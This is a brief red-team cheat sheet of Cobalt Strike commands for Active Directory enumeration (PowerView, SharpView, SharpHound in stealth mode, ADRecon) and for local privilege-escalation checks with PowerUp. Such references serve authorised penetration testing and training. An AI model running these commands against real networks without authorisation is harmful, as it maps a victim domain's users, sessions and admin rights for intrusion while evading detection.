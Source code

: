 # Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
# PowerView:
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser -Domain lab.com

# SharpView
execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

# Collecting only user sessions to determine who is logged in and where:
execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

# Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```

[AD Recon tool](https://github.com/adrecon/ADRecon) - Perform different collection methods (ACLs, OUs, DCs, etc.) and output to Excel files
```
powershell-import --> ADRecon.ps1
# Perform all collection methods:
powershell ADRecon -OutputDir .\ -DomainController ops-dc.lab.com
```
-----------------------------------------------------------------------------------------
## Local Privilege Escalation
### [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) - PowerSploit module
```
powershell-import --> PowerUp.ps1
powerpick Invoke-AllChecks | Out-File -Encoding ASCII PowerUp-checks.txt
```

